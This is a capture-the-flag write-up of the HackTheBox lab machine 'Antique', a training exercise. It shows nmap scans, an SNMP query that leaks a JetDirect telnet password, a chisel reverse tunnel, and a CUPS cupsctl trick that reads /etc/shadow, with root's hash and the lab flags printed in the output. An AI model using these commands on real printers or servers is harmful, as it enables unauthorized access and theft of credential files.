 ```yaml
---
title: Antique writeup
date: 2022-06-17 12:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [HackTheBox, Writeup, Easy-box]
img_path: /assets/img/antique/
toc: true
image:
  src: Antique.png
  width: 1000   # in pixels
  height: 400   # in pixel
---
```

## Foothold
starting an nmap scan, we see a telnet service on port 23. It says something about HP jetdirect when trying to connect to it via telnet.

we also do a UDP scan on the address, with the -sU tag. This takes a while

The only port open and unfiltered besides telnet is 161/udp:
```console 
# Nmap 7.92 scan initiated Sat Jun 11 00:39:54 2022 as: nmap -sU -sC -sV -o nmap/udp.txt 10.129.71.148
Nmap scan report for 10.129.71.148
Host is up (0.025s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT      STATE         SERVICE VERSION
68/udp    open|filtered dhcpc
161/udp   open          snmp    SNMPv1 server (public)
40441/udp open|filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 11 00:59:53 2022 -- 1 IP address (1 host up) scanned in 1198.94 seconds
```

running `snmpwalk -v 1 -c public $IP` reveals its a printer named HTB Printer. Since the only available entrypoint seems to be this printer, we better find out how to exploit it. [This](http://www.irongeek.com/i.php?page=security/networkprinterhacking) blogpost goes into a lot of detail on how exploit a HP jetdicrect printer which has not been configured correctly. Basically, if the right string is sent to the printer it will respond with its own password.

This can be exploited with the following command:
```console
snmpwalk -v 1 -c public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```
This returns some hexcodes. decoding this shows a password:
P@ssw0rd@123!!123

Log in to the telnet service with this password

Once logged in to the telnet service, the `exec id` command can be used to find who we are connected as. We can see that we are the user lp, within the lpadmin group. To get a reverse shell, simply prepend exec to any reverse shell payload you want to use. Most should work.

userflag:f48580e6c8557d0426e3413517504121

## Privilege escalation
we run `ss --tulnp` and get the following:

```console
lp@antique:~$ ss -tulnp
ss -tulnp
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*                                                                                      
udp     UNCONN   0        0                0.0.0.0:161           0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:23            0.0.0.0:*       users:(("python3",pid=1150,fd=3))                                              
tcp     LISTEN   0        4096           127.0.0.1:631           0.0.0.0:*                                                                                      
tcp     LISTEN   0        4096               [::1]:631              [::]:*                                                                                      
lp@antique:~$ 
```
the interesting part of this output is that the machine is listening on port 631 since this port did not show up on our scans.
I will use chisel to set up a listening port on my machine which i can then use to communicate with port 631 on the target machine

on the attacker machine we run the following command: `./chisel server --reverse -p 8000`

on the victim machine: `./chisel client 10.10.17.182:8000 R:8001:127.0.0.1:631`


output of chisel server once connection has been esablished:
```console
./chisel server --reverse -p 8000
2022/06/11 01:27:02 server: Reverse tunnelling enabled
2022/06/11 01:27:02 server: Fingerprint gV7xDnh1btaUqoCrX8/mA9qgIZzsnrA2m1TEsRKLmO0=
2022/06/11 01:27:02 server: Listening on http://0.0.0.0:8000
2022/06/11 01:30:19 server: session#1: tun: proxy#R:8001=>631: Listening
```
when visiting localhost:8001 in our browser we get greeted with the following page
![Cups service landing page](port631.png){: width="972" height="589" }

searching for exploits in cups 1.6.1 leads us to the following link <https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/>

We can read files as root through the error log page on cups through the error log path.

To change the path we need to use cupsctl. See below

```console
p@antique:~$ cupsctl 'ErrorLog'=/etc/shadow
cupsctl 'ErrorLog'=/etc/shadow
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   999  100   999    0     0   975k      0 --:--:-- --:--:-- --:--:--  975k
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
---SNIP---
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

We can of course crack the root hash and login as root, however we can also just change the error log path to /root/root.txt and read the root flag:

```console
lp@antique:~$ cupsctl "ErrorLog"=/root/root.txt
cupsctl "ErrorLog"=/root/root.txt
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
41a5b5db9f352acb5da454924de84bea
lp@antique:~$ 
```